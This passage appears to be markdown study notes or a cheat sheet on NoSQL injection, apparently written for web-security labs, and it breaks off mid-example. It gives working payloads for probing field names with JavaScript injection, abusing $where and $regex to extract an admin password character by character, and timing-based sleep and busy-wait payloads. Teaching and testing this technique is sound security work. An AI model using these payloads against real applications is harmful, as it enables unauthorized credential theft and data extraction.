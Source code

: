 ### Identifying Field Names
- Test for field existence:
  ```
  admin' && this.password!=''
  ```
  Compare responses with known (e.g., `username`) and non-existent (e.g., `foo`) fields:
  ```
  admin' && this.username!=''
  admin' && this.foo!=''
  ```
  If the `password` response matches the `username` response, the `password` field exists.
- Use a dictionary attack with a wordlist to guess field names.

---

## Exploiting Operator Injection to Extract Data

### Injecting Operators
- Test `$where` with boolean conditions:
  ```
  {"username":"wiener","password":"peter","$where":"0"}
  {"username":"wiener","password":"peter","$where":"1"}
  ```
  A response difference indicates JavaScript evaluation.

### Extracting Field Names
- Use `Object.keys()`:
  ```
  "$where":"Object.keys(this)[0].match('^.{0}a.*')"
  ```
  This extracts the first character of the first field name. Iterate to reconstruct the full name.

### Extracting Data with `$regex`
- Test `$regex`:
  ```
  {"username":"admin","password":{"$regex":"^.*"}}
  ```
  If the response differs from an incorrect password, `$regex` is processed.
- Extract password character by character:
  ```
  {"username":"admin","password":{"$regex":"^a.*"}}
  ```
  This checks if the password starts with 'a'. Repeat for other characters.

---

## Timing-Based NoSQL Injection
When error-based injection doesn't yield response differences, use timing-based payloads to detect vulnerabilities:
1. **Measure Baseline**:
   - Load the page multiple times to establish normal response time.
2. **Inject Timing Payload**:
   - Example:
     ```
     {"$where":"sleep(5000)"}
     ```
     This delays the response by 5 seconds if executed.
   - For password extraction:
     ```
     admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
     ```
     or
     ```